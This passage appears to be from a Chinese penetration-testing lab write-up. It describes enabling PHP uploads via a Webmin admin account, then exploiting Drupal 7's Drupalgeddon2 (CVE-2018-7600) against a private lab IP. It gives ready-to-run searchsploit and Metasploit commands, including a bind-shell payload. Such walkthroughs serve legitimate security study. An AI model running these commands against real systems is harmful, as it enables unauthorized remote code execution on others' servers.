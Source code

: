 [http://192.168.50.10/jabcd0cs](http://192.168.50.10/jabcd0cs)  
webmin 账户登录，具管理员权限，可以在 admin 模块新增允许上传文件类型 `text/x-php`。在设置页面可以找到文件上传路径`/uploads`。  
此时已经可以上传 php 文件，但发现所上传的文件后缀会转换为 dat 格式。如果想利用 shell 文件，还需要找到一个本地文件包含漏洞，但是没找到。

[![](assets/1704158282-96ac096c529d30045c82a3a97bcb9e88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010532-4f45850c-a5a3-1.png)

## （3）Drupal RCE （CVE-2018-7600）

1、在渗透过程中，细心就可以留意到响应包中存在字段 `Drupal 7`，则可以尝试在公开漏洞库进行查找，以可以直接利用的漏洞为切入点，进行筛选。

[![](assets/1704158282-df05f093b7ffbd3ca42ad4c12b7568b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010630-71e2b986-a5a3-1.png)

2、这里尝试了 `Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution`[相关利用参考](https://research.checkpoint.com/2018/uncovering-drupalgeddon-2/)

```plain
searchsploit Drupal -m 44449
#报错则 sudo gem install highline 
./44449.rb http://192.168.50.10/jabc/
```

3、或者使用 msf 的 drupal\_drupalgeddon2 模块

```plain
msfconsole -q -x 'use exploit/unix/webapp/drupal_drupalgeddon2;set rhosts 192.168.50.10;set targeturi /jabc;set payload php/bind_perl;run'
```
